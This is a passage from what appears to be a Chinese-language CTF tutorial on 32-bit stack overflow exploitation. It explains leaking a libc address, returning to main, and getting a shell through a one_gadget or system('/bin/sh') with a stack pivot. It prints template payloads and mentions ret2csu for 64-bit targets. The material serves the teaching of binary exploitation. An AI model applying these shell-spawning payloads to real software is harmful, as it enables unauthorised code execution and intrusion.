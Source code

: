 泄露地址后返回main函数，第二次运行程序。后续getshell可以用onegadget或者system(/bin/sh)。溢出ip为onegadget就能getshell。system(/bin/sh)需要再次栈迁移。

onegadget

```text
payload3=[任意内容]
payload4='a'*0x6c+'a'*4+p32(onegadget)
```

system(/bin/sh)

```text
payload3='a'*4+p32(system@libc_addr)+p32(main)+p32(binsh@libc_addr)
payload4='a'*0x6c+p32(addr)+p32(leave;ret)
```

对于32位程序如果输出函数只有write影响不大，而64位程序如果输出函数只有write没有puts等少参数的函数，可能会比较棘手，原因还是在于第三个参数rdx缺少gadget，需要实际调试查看rdx的原值是否需求，如果不符合需要赋值就要ret2csu，将csu利用链写到迁移地址上。

**总结**

这里归纳了几种入门题目常见套路，但是套路远远不局限于上文，比如栈溢出修改局部变量，绕过PIE保护等等，后续会在公众号分享相关内容，大家敬请关注。